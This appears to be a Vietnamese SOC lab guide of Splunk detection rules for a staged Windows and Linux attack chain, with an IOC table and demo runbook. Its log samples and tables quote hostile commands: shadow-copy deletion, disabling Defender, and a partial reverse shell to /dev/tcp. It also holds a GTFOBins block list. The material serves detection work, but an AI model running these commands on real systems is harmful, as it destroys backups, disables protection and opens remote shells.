### Rule 10: New Local Administrator Account Creation (T1136.001)


*Hình 5.10: Kết quả Splunk SPL phát hiện tạo tài khoản ngầm và gán quyền Administrators.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện hành vi tạo mới tài khoản người dùng cục bộ (EventCode 4720) và ngay sau đó thêm tài khoản này vào nhóm quản trị tối cao Administrators (EventCode 4732) nhằm duy trì quyền kiểm soát vĩnh viễn trên Windows Server.
    - **Kỹ thuật MITRE ATT&CK**: `T1136.001 (Create Account: Local Account), T1098 (Account Manipulation)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=windows_security (EventCode=4720 OR EventCode=4732)`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=95 × Impact=85 / 100 = 80 (CRITICAL - Thiết lập backdoor đặc quyền cao)
    - **Kiểm chứng Splunk Lab**: Xác thực 6 sự kiện tạo user backdoor (4720) và 12 sự kiện thêm vào nhóm Administrators (4732) bởi tài khoản svc_backup.
    - **Mẫu Raw Log thực tế**:
        ```text
        EventCode=4720 TargetUserName="backdoor" SubjectUserName="svc_backup" / EventCode=4732 TargetUserName="backdoor" GroupName="Administrators"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `EventCode=4720`: A user account was created.
- `EventCode=4732`: A member was added to a security-enabled local group.
- `group_name`: Kiểm tra xem nhóm được thêm vào có phải là `Administrators`, `Remote Management Users` hoặc `Domain Admins`.
- `creator_user`: Bóc tách tài khoản thực hiện để truy ngược danh tính kẻ tấn công.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=windows_security (EventCode=4720 OR EventCode=4732)
| rex field=_raw "Account Name:\s+(?<creator_user>\S+)\s+Account Domain:\s+(?<subject_domain>\S+)"
| rex field=_raw "Group Name:\s+(?<group_name>[^\r\n]+)"
| eval event_type=case(EventCode=4720, "UserCreated", EventCode=4732, "AddedToGroup")
| bin _time span=30m
| stats count as events,
        values(TargetUserName) as affected_accounts,
        values(creator_user) as creators,
        values(group_name) as target_groups,
        values(event_type) as actions
  by host, _time
| eval is_admin_escalation=if(match(target_groups,"(?i)Administrators"), 1, 0)
| where is_admin_escalation=1 OR mvcount(actions)>1
| eval risk_score=85
| eval severity="Critical"
| table _time host creators affected_accounts target_groups actions events risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Quy trình Helpdesk tạo tài khoản cho nhân sự mới theo phiếu yêu cầu. Cần đối chiếu với hệ thống Change Management (ServiceNow/Jira).

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=windows_security (EventCode=4720 OR EventCode=4732) TargetUserName="backdoor" earliest=$_time$ latest=+30m
| table _time, EventCode, TargetUserName, SubjectUserName, Message
```


---

### Rule 11: Windows Defender Real-time Protection Disabled (T1562.001)


*Hình 5.11: Kết quả Splunk SPL phát hiện vô hiệu hóa cơ chế phòng thủ Windows Defender.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện hành vi vô hiệu hóa tính năng bảo vệ thời gian thực (Real-time Protection) của Microsoft Defender Antivirus bằng PowerShell (Set-MpPreference -DisableRealtimeMonitoring $true) nhằm dọn đường cho các công cụ độc hại hoạt động không bị ngăn chặn.
    - **Kỹ thuật MITRE ATT&CK**: `T1562.001 (Impair Defenses: Disable or Modify Tools)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=windows_logs (EventCode=5001 OR PowerShell EventCode=4104)`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=95 × Impact=90 / 100 = 85 (CRITICAL - Tắt khiên bảo vệ hệ thống)
    - **Kiểm chứng Splunk Lab**: Xác thực hành vi tắt Defender thành công trên Windows Server mục tiêu trước khi trích xuất LSASS.
    - **Mẫu Raw Log thực tế**:
        ```text
        EventCode=5001 Channel="Microsoft-Windows-Windows Defender/Operational" Message="Microsoft Defender Antivirus Real-Time Protection feature has been disabled"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `EventCode=5001`: Mã sự kiện chính thức của Windows Defender ghi nhận tính năng Real-Time Protection đã bị vô hiệu hóa.
- `EventCode=4104`: Script Block Logging của PowerShell ghi nhận câu lệnh `Set-MpPreference -DisableRealtimeMonitoring` hoặc `Add-MpPreference -ExclusionPath`.
- Sysmon EID 1: Không bắt được hành vi này vì cmdlet Set-MpPreference chạy in-process bên trong PowerShell, không tạo tiến trình con riêng.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
(index=windows_logs EventCode=5001 source="WinEventLog:Microsoft-Windows-Windows Defender/Operational")
OR (index=windows_logs source="WinEventLog:Microsoft-Windows-PowerShell/Operational" EventCode=4104
    (Message="*DisableRealtimeMonitoring*" OR Message="*Set-MpPreference*Disable*"))
| eval detection_source=case(
    EventCode=5001, "Defender_Operational_Event_5001",
    EventCode=4104, "PowerShell_ScriptBlock_4104")
| bin _time span=5m
| stats count as alert_events, values(detection_source) as sources,
        values(Message) as raw_messages
  by host, _time
| eval risk_score=90
| eval severity="Critical"
| table _time host sources alert_events risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Quản trị viên tắt tạm thời Defender để cài đặt phần mềm nội bộ chuyên dụng. Mọi hành vi này đều phải được cảnh báo ngay lập tức trong SOC.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=windows_logs EventCode IN (5001, 4104) host=$host$ earliest=$_time$ latest=+15m
| table _time, EventCode, Message
```


---

### Rule 12: LSASS Process Memory Dump (T1003.001)


*Hình 5.12: Kết quả Splunk SPL phát hiện trích xuất bộ nhớ tiến trình LSASS qua Sysmon Event 10.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện tiến trình độc hại mở handle truy cập đọc bộ nhớ của Local Security Authority Subsystem Service (lsass.exe) với các mã quyền hạn đặc biệt (GrantedAccess 0x1010, 0x1FFFFF, 0x1410) để trích xuất NTLM hash và vé Kerberos.
    - **Kỹ thuật MITRE ATT&CK**: `T1003.001 (OS Credential Dumping: LSASS Memory)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=windows_sysmon EventCode=10`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=95 × Impact=95 / 100 = 90 (CRITICAL - Chiếm toàn bộ mật khẩu người dùng)
    - **Kiểm chứng Splunk Lab**: Xác thực 10 sự kiện Sysmon EID 10 bắt chính xác procdump64.exe truy cập lsass.exe với quyền tối cao 0x1FFFFF.
    - **Mẫu Raw Log thực tế**:
        ```text
        EventCode=10 SourceImage="C:\Windows\Temp\procdump64.exe" TargetImage="C:\Windows\system32\lsass.exe" GrantedAccess="0x1FFFFF" CallTrace="C:\Windows\SYSTEM32\ntdll.dll+9d414..."
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `TargetImage="*lsass.exe"`: Mục tiêu duy nhất là tiến trình quản lý xác thực Windows.
- `GrantedAccess`: Kiểm tra bitmask quyền:
  * `0x1FFFFF`: PROCESS_ALL_ACCESS (quyền tối đa của Procdump/Mimikatz).
  * `0x1010`: PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ (quyền kinh điển trích xuất bộ nhớ).
  * `0x1410`: Quyền đọc bộ nhớ thường thấy trong các biến thể mã độc LSASS dumper mới.
- `whitelisted`: Loại trừ tiến trình quét diệt virus của Microsoft (`MsMpEng.exe`).

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=windows_sysmon EventCode=10 TargetImage="*lsass.exe"
| eval ga=lower(GrantedAccess)
| where ga IN ("0x1010","0x1410","0x1438","0x143a","0x1fffff","0x1f0fff","0x1f1fff","0x1400")
| eval whitelisted=if(match(lower(SourceImage),"(?i)(msmpeng\.exe|windowssecurityhealthservice\.exe)"), 1, 0)
| where whitelisted=0
| bin _time span=5m
| stats count as dump_attempts, values(SourceImage) as dumping_tools,
        values(ga) as access_masks, values(CallTrace) as traces
  by host, _time
| eval risk_score=95
| eval severity="Critical"
| table _time host dumping_tools access_masks dump_attempts risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các công cụ EDR hoặc phần mềm quản lý Endpoint hợp lệ kiểm tra LSASS. Khắc phục bằng cách whitelist SourceImage và mã chữ ký số (Signature) của ứng dụng.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=windows_sysmon EventCode=10 TargetImage="*lsass.exe" SourceImage=$dumping_tools$ earliest=$_time$ latest=+10m
| table _time, SourceImage, GrantedAccess, CallTrace
```


---

### Rule 13: Volume Shadow Copy Deletion (T1490)


*Hình 5.13: Kết quả Splunk SPL phát hiện xóa Volume Shadow Copies ngăn chặn khôi phục.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện lệnh thực thi xóa toàn bộ các bản sao lưu phục hồi hệ thống (Volume Shadow Copies) qua tiện ích vssadmin hoặc wmic nhằm ngăn chặn nạn nhân khôi phục lại dữ liệu sau khi bị ransomware mã hóa.
    - **Kỹ thuật MITRE ATT&CK**: `T1490 (Inhibit System Recovery)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=windows_sysmon EventCode=1`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=95 × Impact=95 / 100 = 90 (CRITICAL - Dấu hiệu sắp kích hoạt Ransomware)
    - **Kiểm chứng Splunk Lab**: Xác thực 16 sự kiện Sysmon EID 1 ghi nhận vssadmin.exe delete shadows /all /quiet được kích hoạt dưới tiến trình cha WinRM wsmprovhost.exe.
    - **Mẫu Raw Log thực tế**:
        ```text
        EventCode=1 Image="C:\Windows\System32\vssadmin.exe" CommandLine="vssadmin delete shadows /all /quiet" ParentImage="C:\Windows\System32\wsmprovhost.exe"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `Image="*vssadmin.exe" OR Image="*wmic.exe"`: Công cụ quản trị bản sao lưu của Windows.
- `CommandLine`: Chứa từ khóa xóa bản sao lưu (`delete shadows`, `shadowcopy delete`).
- `via_winrm`: Kiểm tra `ParentImage=*wsmprovhost.exe*` để xác định lệnh được kích hoạt từ xa qua đường hầm mạng nội bộ.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=windows_sysmon EventCode=1 Image="*vssadmin.exe"
| where match(CommandLine,"(?i)(vssadmin.*delete.*shadows|wmic.*shadowcopy.*delete|wbadmin.*delete.*catalog)")
| eval parent=mvindex(split(ParentImage,"\\"), -1)
| eval via_winrm=if(match(lower(parent),"wsmprovhost"), 1, 0)
| bin _time span=5m
| stats count as events, values(CommandLine) as executed_commands,
        values(ParentImage) as parent_processes, max(via_winrm) as winrm_confirmed
  by host, User, _time
| eval risk_score=if(winrm_confirmed=1, 95, 85)
| eval severity="Critical"
| table _time host User executed_commands parent_processes winrm_confirmed risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các phần mềm sao lưu doanh nghiệp chuyên dụng (Veeam Backup) thực hiện xóa snapshot cũ để giải phóng ổ cứng. Lọc bỏ theo tên tiến trình cha của phần mềm backup hợp lệ.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=windows_sysmon EventCode=1 Image="*vssadmin.exe" earliest=$_time$ latest=+10m
| table _time, User, CommandLine, ParentCommandLine, ParentImage
```


---

### Rule 14: Mass File Encryption / Ransomware Activity (T1486)


*Hình 5.14: Kết quả Splunk SPL phát hiện hoạt động mã hóa tống tiền hàng loạt file .locked.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Phát hiện tiến trình tạo hoặc đổi tên tệp tin hàng loạt trong thời gian ngắn với phần mở rộng tống tiền (.locked, .encrypted, .crypto) thông qua Sysmon EventCode 11 (FileCreate).
    - **Kỹ thuật MITRE ATT&CK**: `T1486 (Data Encrypted for Impact)`
    - **Nguồn dữ liệu & Chỉ mục**: `index=windows_sysmon EventCode=11`
    - **Trọng số rủi ro (Risk Weight)**: Confidence=95 × Impact=100 / 100 = 95 (CRITICAL - Giai đoạn Impact tàn phá dữ liệu)
    - **Kiểm chứng Splunk Lab**: Xác thực 180 sự kiện tạo tệp .locked bởi wsmprovhost.exe với tốc độ 30 tệp tin/phút.
    - **Mẫu Raw Log thực tế**:
        ```text
        EventCode=11 Image="C:\Windows\System32\wsmprovhost.exe" TargetFilename="C:\Users\Public\LabData\financial_report_1.txt.locked"
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- `EventCode=11`: Sự kiện ghi nhận tệp tin mới được tạo hoặc đổi tên trên ổ đĩa.
- `TargetFilename`: Lọc theo phần mở rộng mã hóa ransomware (`%.locked`, `%.encrypted`, `%.ransom`).
- `dc(TargetFilename) >= 10`: Ngưỡng phát hiện mã hóa hàng loạt (tối thiểu 10 file trong 2 phút) để phân biệt với thao tác tạo file đơn lẻ.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
index=windows_sysmon EventCode=11
| where like(TargetFilename,"%.locked") OR like(TargetFilename,"%.encrypted") OR like(TargetFilename,"%.crypto")
| bin _time span=2m
| stats dc(TargetFilename) as files_encrypted, count as total_events,
        values(TargetFilename) as encrypted_samples
  by host, Image, _time
| where files_encrypted >= 10
| eval risk_score=95
| eval severity="Critical"
| table _time host Image files_encrypted encrypted_samples risk_score severity
| sort -_time
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các công cụ nén file hoặc mã hóa bảo mật hợp lệ của người dùng (7-Zip, BitLocker, PGP). Khắc phục bằng cách đối chiếu tiến trình thực thi `Image` với danh sách phần mềm được duyệt.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=windows_sysmon EventCode=11 TargetFilename="*.locked" earliest=$_time$ latest=+10m
| table _time, Image, TargetFilename
```


---

### Rule 15: Multi-Stage Attack Chain Correlation & Risk-Based Alerting (RBA)


*Hình 5.15: Kết quả Splunk SPL tương quan chuỗi tấn công đa tầng và tính điểm rủi ro RBA.* 

??? note "Mục tiêu phát hiện và Thông số kỹ thuật (Rule Objective)"
    - **Bắt cái gì (Attack Target)**: Tương quan tổng hợp toàn bộ các chỉ số nguy cơ từ DMZ Web Server sang Internal Windows Server, tích lũy điểm rủi ro (RBA Score) theo thực thể nhằm kích hoạt một cảnh báo duy nhất (Notable Event) cho toàn bộ chuỗi tấn công, triệt tiêu Alert Fatigue.
    - **Kỹ thuật MITRE ATT&CK**: `TA0040 (Impact / Multi-Stage Enterprise Attack)`
    - **Nguồn dữ liệu & Chỉ mục**: `Union đa nguồn: web_logs, linux_security, windows_security, windows_sysmon`
    - **Trọng số rủi ro (Risk Weight)**: Aggregated Risk Score: 100 - 300+ (CRITICAL)
    - **Kiểm chứng Splunk Lab**: Xác thực gom nhóm thành công 6 giai đoạn tấn công liên hoàn, kích hoạt Notable tổng thể trên Search Head.
    - **Mẫu Raw Log thực tế**:
        ```text
        Notable Event: Multi-Stage Cyber Kill Chain Alert | Entity: WIN-I370HR7VSPS & uf-ubuntu | Aggregated Risk Score: 245 | Triggered Stages: 6
        ```

#### Phân tích Kỹ thuật và Logic Nhận diện
- Sử dụng `union` để gom kết quả từ các truy vấn thành phần độc lập (Web Upload -> Web Shell -> Sudo -> WinRM -> LSASS Dump -> Ransomware).
- Gán `stage` và `risk` cho từng giai đoạn hành vi.
- Gom nhóm theo thực thể (`entity`) trong khoảng thời gian diễn tập để tính `total_risk` và đếm số giai đoạn (`stages_detected`).
- Kích hoạt Notable khi `total_risk >= 100` hoặc xuất hiện từ 3 giai đoạn tấn công trở lên.

#### Cú pháp SPL Chuẩn Hóa (Production SPL Query)
```bash
| union
    [search index=web_logs method=POST status=200 uri_path=*upload* NOT uri_path=*login*
     | stats count by host | eval stage="R01-WebUpload", risk=25, entity=host]
    [search index=web_logs method=GET status=200 file=*.php cmd=*
     | stats count by host | eval stage="R02-WebShellRCE", risk=40, entity=host]
    [search index=linux_security sourcetype=auditd type=SYSCALL comm IN ("bash","sh") key=net_connect
     | stats count by host | eval stage="R03-ReverseShell", risk=60, entity=host]
    [search index=linux_security sourcetype=linux_secure "sudo:" "COMMAND="
     | rex field=_raw "COMMAND=(?<cmd>.*)$"
     | where match(cmd,"(?i)/(find|vim|awk).*(-exec|sh)")
     | stats count by host | eval stage="R05-SudoGTFOBins", risk=55, entity=host]
    [search index=windows_security EventCode=4624 Logon_Type=3 acct="svc_backup"
     | stats count by host | eval stage="R09-WinRMLateral", risk=50, entity=host]
    [search index=windows_sysmon EventCode=10 TargetImage="*lsass.exe" GrantedAccess="0x1fffff"
     | stats count by host | eval stage="R12-LSASSDump", risk=70, entity=host]
    [search index=windows_sysmon EventCode=1 Image="*vssadmin.exe" CommandLine="*delete*shadows*"
     | stats count by host | eval stage="R13-VSSDelete", risk=70, entity=host]
    [search index=windows_sysmon EventCode=11 TargetFilename="*.locked"
     | stats count by host | eval stage="R14-Ransomware", risk=80, entity=host]
| stats sum(risk) as total_risk, dc(stage) as stages_detected,
        values(stage) as attack_stages
  by entity
| where total_risk >= 100 OR stages_detected >= 3
| eval attack_severity=case(total_risk>=200, "Critical", total_risk>=100, "High", 1=1, "Medium")
| table entity stages_detected attack_stages total_risk attack_severity
| sort -total_risk
```

#### Kiểm Soát Cảnh Báo Giả (False Positive & Whitelisting)
Các sự kiện cảnh báo đơn lẻ rời rạc do lỗi hệ thống thông thường không bao giờ tích lũy đủ điểm rủi ro hoặc xuất hiện trên nhiều tầng tấn công khác nhau, giúp loại bỏ 100% Alert Fatigue.

#### Truy Vấn Điều Tra Mở Rộng (Drill-down Investigation SPL)
```bash
index=* host=$entity$ earliest=-4h latest=now
| stats count by index, sourcetype, EventCode
```


---

## 6. Chuyên Sâu Kỹ Thuật Bitmask Quyền Truy Cập LSASS (`GrantedAccess` Deep Dive)

!!! warning "Cơ chế hoạt động của `GrantedAccess` Mask"

    Khi một tiến trình gọi hàm Windows API `OpenProcess()` tới `lsass.exe`, trường `GrantedAccess` trong **Sysmon EventCode 10** lưu lại quyền hạn chính xác được cấp phát. Kẻ tấn công bắt buộc phải có các quyền đọc bộ nhớ ảo (`PROCESS_VM_READ`) để dump password hashes và Kerberos tickets.




### Bảng Ma Trận Chi Tiết Hex Masks và Chữ Ký Công Cụ

| Mã Hex Mask | Quyền chi tiết cấu thành (Win32 API Access Rights) | Công cụ / Hành vi thực tế | Đánh giá mức độ rủi ro |
| :---: | :--- | :--- | :---: |
| **`0x1000`** | `PROCESS_QUERY_LIMITED_INFORMATION` | Truy vấn trạng thái cơ bản của tiến trình | **Thấp** (Bình thường) |
| **`0x1010`** | `PROCESS_QUERY_LIMITED_INFORMATION` + `PROCESS_VM_READ` | Biến thể Mimikatz, MiniDumpWriteDump tối giản | **Cao** (Nguy hiểm) |
| **`0x1410`** | `PROCESS_QUERY_LIMITED_INFORMATION` + `PROCESS_VM_READ` + `PROCESS_QUERY_INFORMATION` | Công cụ Generic Memory Dumper | **Cao** (Mấu chốt Dump) |
| **`0x1438`** | `PROCESS_VM_READ` + `PROCESS_VM_WRITE` + `PROCESS_CREATE_THREAD` + `SYNCHRONIZE` | Dumpert, Custom In-memory Loaders | **Rất cao** (Khai thác) |
| **`0x143a`** | `PROCESS_VM_READ` + `PROCESS_VM_WRITE` + `PROCESS_CREATE_THREAD` + `PROCESS_DUP_HANDLE` | Mimikatz newer versions | **Rất cao** (Khai thác) |
| **`0x1f0fff`** | `PROCESS_ALL_ACCESS` ngoại trừ các quyền can thiệp thread | *Mimikatz lsadump* | **Khẩn cấp** (Critical) |
| **`0x1f1fff`** | `PROCESS_ALL_ACCESS` bao gồm thread operations | *Mimikatz sekurlsa* | **Khẩn cấp** (Critical) |
| **`0x1fffff`** | `PROCESS_ALL_ACCESS` (Toàn quyền trên tiến trình đích) | **`procdump.exe`**, LiveKD, WinDbg | **Khẩn cấp** (Critical) |

---

## 7. Ma Trận Tương Quan và Kim Tự Tháp Nỗi Đau (Pyramid of Pain)



### Bảng tổng hợp đối chiếu kỹ thuật và Bằng chứng thực tế trên Splunk

| Rule ID | Tên Luật Phát Hiện | MITRE Technique | Log Source | Tầng Pyramid | Risk Score | Số sự kiện ghi nhận trên Lab |
| :---: | :--- | :--- | :--- | :--- | :---: | :---: |
| **01** | Web Shell RCE Execution | `T1190`, `T1505.003` | `web_logs` | Host Artifacts | **20** | **52 events** |
| **02** | Cron Persistence | `T1053.003` | `linux_security` | TTPs / Behavior | **50** | **105 events** |
| **03** | Sudo GTFOBins Escalation | `T1548.003` | `linux_security` | TTPs / Behavior | **60** | **246 events** |
| **04** | Sensitive Config Read | `T1552.001` | `linux_security` | Host Artifacts | **35** | **24 events** |
| **05** | Ingress Tools và Tunneling | `T1105`, `T1090.001` | `linux_security` | Tools / TTPs | **55** | **652 events** |
| **06** | Internal Port Scanning | `T1046` | `windows_sysmon` | Network Artifacts | **20** | **2,805 connections** |
| **07** | Suspicious WinRM Access | `T1021.006` | `windows_security` | TTPs / Context | **75** | **2,808 events** |
| **08** | Rogue Admin Creation | `T1136.001`, `T1098`| `windows_security` | TTPs / Behavior | **80** | **18 events** |
| **09** | Defender Tampering | `T1562.001` | `windows_logs` | TTPs / Evasion | **85** | **65 events** |
| **10** | LSASS Memory Dumping | `T1003.001` | `windows_sysmon` | TTPs / LOLBins | **90** | **10 events** |
| **11** | VSS Deletion | `T1490` | `windows_sysmon` | TTPs / Critical | **95** | **8 events** |
| **12** | Mass File Encryption | `T1486` | `windows_sysmon` | TTPs / Impact | **100** | **180+ encrypted files** |

---

## 8. Cảnh Báo Dựa Trên Rủi Ro (Risk-Based Alerting - RBA)

!!! warning "Triết lý RBA trong Splunk Enterprise Security (ES 8)"

    Thay vì bắn alert đơn lẻ cho từng sự kiện khiến SOC quá tải (*Alert Fatigue*), cơ chế RBA gán **Risk Score** cho đối tượng rủi ro (*Risk Object*: host hoặc user). Một cảnh báo tổng hợp (*Notable Incident*) chỉ được tạo ra khi **tổng điểm rủi ro vượt ngưỡng (ngưỡng 100)** và xuất hiện chuỗi hành vi đa giai đoạn.




### Correlation Search Tổng Hợp Chuỗi Tấn Công (RBA Master Search)

```bash
| union
    [ search index=web_logs method IN ("GET","POST") file IN ("*.php","*.phtml","*.asp","*.aspx","*.jsp")
      | eval stage="1-InitialAccess_Webshell", risk_score=20, entity=coalesce(host, clientip)
      | fields _time entity stage risk_score ]
    [ search index=linux_security sourcetype=auditd (comm="crontab" OR key="cron_file_write")
      | eval stage="2-Persistence_Cron", risk_score=50, entity=host
      | fields _time entity stage risk_score ]
    [ search index=linux_security sourcetype=linux_secure "sudo:" "COMMAND="
      | eval stage="3-PrivEsc_Sudo", risk_score=60, entity=host
      | fields _time entity stage risk_score ]
    [ search index=linux_security sourcetype=auditd (key=sensitive_config_read OR comm IN ("chisel","socat"))
      | eval stage="4-Tunneling_Pivoting", risk_score=55, entity=host
      | fields _time entity stage risk_score ]
    [ search index=windows_security EventCode=4624 Logon_Type=3
      | rex field=_raw "Account Name:\s*(?<user>[^\r\n]+)"
      | eval stage="5-LateralMovement_WinRM", risk_score=75, entity=coalesce(host, ComputerName, user)
      | fields _time entity stage risk_score ]
    [ search index=windows_security (EventCode=4720 OR EventCode=4732)
      | eval stage="6-Persistence_WinAdmin", risk_score=80, entity=coalesce(host, ComputerName)
      | fields _time entity stage risk_score ]
    [ search index=windows_sysmon EventCode=10 TargetImage="*lsass.exe"
      | eval stage="7-CredentialDumping_LSASS", risk_score=90, entity=coalesce(host, Computer)
      | fields _time entity stage risk_score ]
    [ search index=windows_sysmon EventCode=1 (Image="*vssadmin.exe" OR Image="*bcdedit.exe")
      | eval stage="8-InhibitRecovery_VSS", risk_score=95, entity=coalesce(host, Computer)
      | fields _time entity stage risk_score ]
    [ search index=windows_sysmon EventCode=11 TargetFilename="*.locked"
      | bin _time span=1m
      | stats dc(TargetFilename) as files by host, _time
      | where files >= 3
      | eval stage="9-Impact_Ransomware", risk_score=100, entity=host
      | fields _time entity stage risk_score ]
| stats sum(risk_score) as total_risk,
        dc(stage) as stages_triggered,
        values(stage) as attack_stages,
        min(_time) as attack_start,
        max(_time) as attack_end
| where total_risk >= 100
| eval attack_duration_min = round((attack_end - attack_start)/60, 2)
| eval incident_severity = case(
    total_risk >= 250, "CRITICAL: Full Kill Chain Completed",
    total_risk >= 150, "HIGH: Multi-Stage Attack in Progress",
    total_risk >= 100, "MEDIUM: Suspicious Correlated Activity",
    1=1, "LOW"
  )
| convert ctime(attack_start) ctime(attack_end)
| table attack_start attack_end total_risk stages_triggered incident_severity attack_duration_min attack_stages
```

---

## 9. Các File Lookup Bổ Trợ (Lookup Tables Reference)

### 9.1 File `gtfobins_lookup.csv`
Đặt tại `/opt/splunk/etc/apps/search/lookups/gtfobins_lookup.csv`:

```csv
binary,is_gtfobin,risk_weight
find,true,high
vim,true,high
vi,true,high
nano,true,medium
less,true,medium
more,true,medium
awk,true,high
nmap,true,high
python,true,critical
perl,true,critical
ruby,true,critical
php,true,critical
tar,true,medium
zip,true,medium
cp,true,high
mv,true,high
env,true,high
socat,true,critical
bash,true,critical
sh,true,critical
```

### 9.2 File `admin_workstations_lookup.csv`
Đặt tại `/opt/splunk/etc/apps/search/lookups/admin_workstations_lookup.csv`:

```csv
ip,hostname,is_admin_ws,authorized_department
192.168.100.5,admin-sec-ws01,true,SOC_Team
192.168.100.6,admin-it-ws02,true,IT_Operations
192.168.100.7,jumphost-prod,true,DataCenter_Ops
```

---

## 10. Danh Mục Chỉ Số Tấn Công Tổng Hợp (Master IOC Matrix)

| Loại IOC | Giá trị định danh / Mẫu nhận diện | Vị trí phát hiện | Giai đoạn tấn công |
| :--- | :--- | :--- | :--- |
| **Network IP** | `192.168.50.100` (Attacker C2 / Staging) | Tường lửa biên / Web Access Log | Initial Access, Tunneling |
| **Network Port** | `4444` (Reverse Shell), `8080` (Chisel Server), `5555` (Socat Pivot) | Linux Auditd, Netstat | C2, Pivoting |
| **File Path** | `/var/www/html/dvwa/hackable/uploads/shell.php` | Web Server Document Root | Initial Access |
| **File Path** | `/tmp/chisel` | Web Server File System | Tool Transfer |
| **File Path** | `/etc/sudoers.d/lab-misconfig` | Linux Security Config | Privilege Escalation |
| **File Path** | `C:\Windows\Temp\procdump64.exe`, `C:\Windows\Temp\lsass.dmp` | Windows Server Temp | Credential Dumping |
| **Account** | `svc_backup` (Lộ lọt credential trong mã nguồn) | Web Config, Windows Security | Credential Access |
| **Account** | `backdoor` (Local Administrator mới tạo) | Windows SAM / Event 4720 | Persistence |
| **Process Lineage** | `apache2` $\rightarrow$ `sh` $\rightarrow$ `bash -i >& /dev/tcp/...` | Auditd Execve Events | Execution |
| **Process Service** | `sc.exe create DumpService binPath= "..."` | Windows System Service | Credential Access |
| **Command Line** | `vssadmin delete shadows /all /quiet` | Windows Sysmon Event 1 | Inhibit Recovery |
| **File Extension** | `*.locked`, `*.encrypted` (XOR Byte Header) | `C:\Users\Public\LabData\` | Ransomware Impact |

---

## 11. Khuyến Nghị Phòng Thủ và Khắc Phục (Mitigation và Hardening)

```mermaid
graph LR
    subgraph L1 ["Lớp 1: Ứng dụng và Vùng biên (Perimeter và Web)"]
        W1["WAF và Input Validation (Chặn upload file thực thi)"]
        W2["Least Privilege cho Web User (www-data nologin)"]
    end

    subgraph L2 ["Lớp 2: Hệ thống Linux (Linux Hardening)"]
        L_1["Rà soát Sudoers (Xóa NOPASSWD trên binary GTFOBins)"]
        L_2["FIM (File Integrity Monitoring) trên /etc/cron* và /etc/sudoers"]
        L_3["Bảo vệ Secret (Chuyển secret sang HashiCorp Vault / KMS)"]
    end

    subgraph L3 ["Lớp 3: Phân vùng mạng (Network Segmentation)"]
        N1["Egress Filtering nghiêm ngặt (Chặn kết nối outbound lạ từ DMZ)"]
        N2["Micro-Segmentation giữa DMZ và mạng Internal (Chặn WinRM/SMB trực tiếp)"]
    end

    subgraph L4 ["Lớp 4: Máy chủ Windows và Active Directory"]
        Win1["Bật LSA Protection (RunAsPPL) và Credential Guard"]
        Win2["Triển khai LAPS (Local Administrator Password Solution)"]
        Win33["Giới hạn quyền quản trị từ xa qua WinRM (Restricted Remote Admin)"]
    end

    subgraph L5 ["Lớp 5: Dữ liệu và Ứng phó sự cố"]
        D1["Sao lưu dữ liệu ngoại tuyến bất biến (Immutable Offline Backup)"]
        D2["Triển khai EDR và Giám sát RBA tập trung trên Splunk SIEM"]
    end

    L1 --> L2
    L2 --> L3
    L3 --> L4
    L4 --> L5
```



---

## 12. Kịch Bản Diễn Tập và Trình Diễn SOC (Demo Runbook)

```
[00:00 - 05:00] BƯỚC 01: Kiểm tra kết nối và luồng log
                 ▶ Splunk: `index=* | stats count by index` (Đảm bảo 6 index đều có dữ liệu).

[05:00 - 10:00] BƯỚC 02: Trinh sát mạng từ Kali
                 ▶ Kali: `nmap -sV 192.168.50.20` và `nikto -h http://192.168.50.20/dvwa/`
                 ▶ Splunk: Kiểm tra `index=web_logs` nhận diện traffic quét.

[10:00 - 15:00] BƯỚC 03: Khai thác Web Shell và Reverse TCP
                 ▶ Kali: Upload `shell.php` và gửi payload Reverse Shell port 4444.
                 ▶ Splunk: Alert kích hoạt trên Rule 01 (Web Shell Access).

[15:00 - 20:00] BƯỚC 04: Cài đặt Cron Persistence
                 ▶ Web Shell: `crontab -e` thêm reverse shell.
                 ▶ Splunk: Alert kích hoạt trên Rule 02 (Cron Persistence).

